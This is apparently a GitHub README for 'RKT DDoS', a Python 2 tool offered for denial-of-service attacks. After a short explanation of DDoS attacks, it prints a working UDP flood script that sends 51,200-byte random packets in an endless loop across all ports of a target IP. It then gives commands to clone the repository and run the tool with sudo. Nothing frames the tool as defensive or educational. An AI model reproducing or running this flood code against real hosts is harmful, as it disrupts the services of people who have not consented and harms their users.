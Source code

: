 [![MIT](https://img.shields.io/packagist/l/doctrine/orm.svg)](https://github.com/r3k4t/rktddos/blob/master/LICENSE) 
[![python](https://img.shields.io/badge/python-2.7-orange.svg)](https://www.python.org/download/releases/2.7/)


<h2>RKT DDoS</h2>

<h4>Author : RKT</h4>

### Descripton ###

![ddos-attack](https://user-images.githubusercontent.com/69615463/96416706-f806c480-120d-11eb-94f2-e059f60cb8f3.png)


### DDos(Distributed Denial-Of-Service) ###

A distributed denial-of-service (DDoS) attack is a malicious attempt to disrupt the normal traffic of a targeted server, service or network by overwhelming the target or its surrounding infrastructure with a flood of Internet traffic.

DDoS attacks achieve effectiveness by utilizing multiple compromised computer systems as sources of attack traffic. Exploited machines can include computers and other networked resources such as IoT devices.

From a high level, a DDoS attack is like an unexpected traffic jam clogging up the highway, preventing regular traffic from arriving at its destination.


### Python DDoS Code(Basic) ###

>>>import socket
<br>
>>>import random
<br>
>>>rkt = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
<br>
>>>bytes = random._urandom(51200)
<br>
>>>ip   = "127.0.0.1"
<br>
>>>port = 80
<br>
>>>sent = 0
<br>
>>>while True:
      <br>
>>> ...  rkt.sendto(bytes,(ip,port))
       <br>
>>> ...  sent = sent + 1
       <br>
>>> ...  port = port + 1
       <br>
>>> ...  print "SENT %s PACKET TO %s THROUGHT PORT:%s" % (sent,ip,port)
       <br>
>>> ...  if port == 65535:
       <br>   
>>> ...   port = 1
  

#### Tested On ###

<ul>
<li>Ubuntu</li>
<li>Kali Linux</li>
<li>Linuxmint</li>
<li>Parrot Os</li>
</ul>


### Setup ###

<ul>
<li>sudo pip2 install requirements.txt</li>
</ul> 

### Terminal Command ###

<ul>
<li>git clone https://github.com/r3k4t/rktddos.git</li>
<li>cd   rktddos          </li>
<li>sudo python2 rktddos.py</li>
</ul>

### Screentshots ###

![Screenshot at 2020-10-19 12-54-05](https://user-images.githubusercontent.com/69615463/96414279-8aa56480-120a-11eb-82c0-4833bd7dba4a.png)

Next

![Screenshot at 2020-10-19 12-54-22](https://user-images.githubusercontent.com/69615463/96414316-96912680-120a-11eb-8e82-7b68da167f4c.png)


Next


![Screenshot at 2020-10-19 12-54-27](https://user-images.githubusercontent.com/69615463/96414350-a14bbb80-120a-11eb-8a39-368429a790ef.png)







